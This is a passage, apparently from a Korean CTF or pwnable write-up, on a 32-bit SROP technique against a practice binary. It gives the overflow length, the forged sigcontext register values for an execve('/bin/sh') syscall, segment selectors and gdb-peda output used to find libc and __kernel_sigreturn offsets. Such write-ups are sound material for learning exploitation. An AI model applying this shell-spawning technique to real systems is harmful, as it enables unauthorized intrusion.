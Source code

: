 "A"*66 이상 입력 시 Return Address 변조 가능.  
sigreturn()함수를 이용해 레지스터에 필요한 값을 저장 
* ESP : sigreturn() 함수 호출 후 이동할 주소("int 0x80" 명령어가 저장된 주소)
* EBX : "/bin/sh" 문자열이 저장된 주소
* EAX : execve() 함수의 시스템 콜 번호
* EIP : "int 0x80" 명령어가 저장된 주소
* CS : User Code(0x23)
* SS : User Data / Stack(0x2b)

int 0x80 명령어 실행

### **CS(Code segment) & SS(Stack Segment)**

sigcontext 구조체 형태로 stack에 저장할 때 CS, SS 레지스터 설정을 해야한다.  
공격 코드들은 User Mode에서 실행되기 때문에 User Code / User Stack 값을  사용해야 한다.

| Purpose | Segment(32bit) | Segment(64bit - 32bit) |
|:---:|:---:|:---:|
| Kernel Code | 0x60 | 0x8 |
| Kernel Data / Stack | 0x68 | 0x18 |
| User Code | 0x73 | 0x23 |
| User Data / Stack | 0x7b | 0x2b |

### **Libc Offset**

```
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/root/pwnable/srop32
0x08049000 0x0804a000 r--p	/root/pwnable/srop32
0x0804a000 0x0804b000 rw-p	/root/pwnable/srop32
0x0804b000 0x0806c000 rw-p	[heap]
0xf7e01000 0xf7e02000 rw-p	mapped
0xf7e02000 0xf7faf000 r-xp	/lib32/libc-2.23.so
0xf7faf000 0xf7fb0000 ---p	/lib32/libc-2.23.so
0xf7fb0000 0xf7fb2000 r--p	/lib32/libc-2.23.so
0xf7fb2000 0xf7fb3000 rw-p	/lib32/libc-2.23.so
0xf7fb3000 0xf7fb6000 rw-p	mapped
0xf7fb6000 0xf7fb9000 r-xp	/lib32/libdl-2.23.so
0xf7fb9000 0xf7fba000 r--p	/lib32/libdl-2.23.so
0xf7fba000 0xf7fbb000 rw-p	/lib32/libdl-2.23.so
0xf7fd3000 0xf7fd4000 rw-p	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib32/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p	/lib32/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib32/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]

gdb-peda$ p 0xf7e4b020(printf)-0xf7e02000
$1 = 0x49020

gdb-peda$ p __kernel_sigreturn
$2 = {<text variable, no debug info>} 0xf7fd8000 <__kernel_sigreturn>
gdb-peda$ p 0xf7fd8000-0xf7e02000
$3 = 0x1d6000

gdb-peda$ x/3i 0xf7fd8000
   0xf7fd8000 <__kernel_sigreturn>:	pop    eax
   0xf7fd8001 <__kernel_sigreturn+1>:	mov    eax,0x77
   0xf7fd8006 <__kernel_sigreturn+6>:	int    0x80

```
